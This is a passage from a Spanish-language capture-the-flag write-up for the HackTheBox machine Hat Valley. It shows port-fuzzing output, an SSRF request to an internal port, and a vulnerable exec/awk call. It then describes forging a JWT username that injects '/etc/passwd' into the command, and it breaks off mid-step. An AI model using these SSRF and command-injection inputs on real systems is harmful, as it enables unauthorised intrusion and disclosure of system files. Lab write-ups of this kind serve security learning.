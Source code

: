 ```js
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000080:   200        8 L      13 W       132 Ch      "80"                                                                                                                         
000003002:   200        685 L    5834 W     77002 Ch    "3002"                                                                                                                       
000008080:   200        54 L     163 W      2881 Ch     "8080"                                                                                                                       

Total time: 0
Processed Requests: 15000
Filtered Requests: 14997
Requests/sec.: 0
```

- Vemos el puerto 3002, accedemos a este mediante el ataque SSRF:

```bash
http://hat-valley.htb/api/store-status?url="http://localhost:3002"
```


- Podemos observar contenido acerca de la API de Hat Valley, es decir, de la página en cuestión, analizamos las funciones utilizadas.    

<br><br>

# Explotando JWT y LFI + Scripting en Python:

- Vemos que en la función "all-leave" se usa un método GET el cual en una parte del código ejecuta un:

```js
exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr
```

- Podemos aprovecharnos de este comando `"awk"` para mostrar archivos locales del sistema, como el "/etc/passwd", para esto, deberíamos modificar el comando de forma que quede más o menos así:

```js
awk '//' /etc/passwd ' /' /var/www/private/leave_requests.csv
```

- Dado que el valor de la variable "user" pertenece a la información de la cookie `(JWT)`, podemos aprovecharnos para modificar y que se ajuste el comando al que queremos llegar.

- Primero, en la petición que habíamos hecho en Burpsuite copiamos la cookie la cual por su apariencia podemos saber que se trata de una `JWT`, la decodificamos en [JSON Web Tokens - jwt.io](https://jwt.io/) y podremos ver la información de esta JWT.

- Modificamos el username por " /' /etc/passwd  ' "
